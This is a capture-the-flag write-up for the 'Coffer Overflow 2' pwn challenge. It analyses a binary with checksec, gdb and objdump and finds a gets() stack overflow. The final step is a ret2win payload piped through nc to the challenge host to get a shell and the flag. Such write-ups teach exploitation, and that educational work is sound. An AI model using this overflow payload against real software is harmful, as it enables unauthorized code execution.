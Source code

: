 # Coffer Overflow 2

- Genre pwn  

I examined the given binary with some commands first.  
```sh
file coffer-overflow-2
coffer-overflow-2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0904cdb0421222a7323625c5e603d5368a2e9928, not stripped
checksec coffer-overflow-2
[*] 'coffer-overflow-2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
This was a 64 bit elf and most of the security features were disabled.  

I ran this binary to see what it did.  

```sh
./coffer-overflow-2
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
AAAAAAAAAA
```

It just asked for the user input then exited.  
So I ran this program with gdb this time.  

![image](https://user-images.githubusercontent.com/53568647/85862033-92c53880-b804-11ea-8624-6eca9e1222d6.png)

It had gets function in the main and possibilities to cause stack buffer overflow to return to an arbitrary function.  

Then I ran objdump to see what functions this binary had because if there was an easy 'get-flag-function' that would bring me a straight win.  

```sh
objdump -D coffer-overflow-2
```

![image](https://user-images.githubusercontent.com/53568647/85861826-4679f880-b804-11ea-9c81-5f7339b4503a.png)

And I was able to find an interesting function __binFunction__ which called system located at __0x4006e6__.  
I went back to gdb session to find out the right size of buffer required to cause overflow and call binFunction.  

The return address from main function was found by observing the gdb session, and it was __0x7ffff7e16e0b__. The size of the buffer could be calcurated with the location of the address in the stack.  

![image](https://user-images.githubusercontent.com/53568647/85861836-48dc5280-b804-11ea-9a02-3735d8d343f9.png)

I could use pattern_create and pattern_offset to calcurate the size of the buffer as well and find same result, 24 bytes.  
Then simply I could send a request to get a shell.  

![image](https://user-images.githubusercontent.com/53568647/85861841-4aa61600-b804-11ea-8726-212b5977c7d4.png)

```sh
(python -c "print('A' * 24 + '\xe6\x06\x40\x00' + '\x00'* 4)"; cat) | nc 2020.redpwnc.tf 31908
```

![image](https://user-images.githubusercontent.com/53568647/85861846-4c6fd980-b804-11ea-8d0a-68bdccb334fa.png)

flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
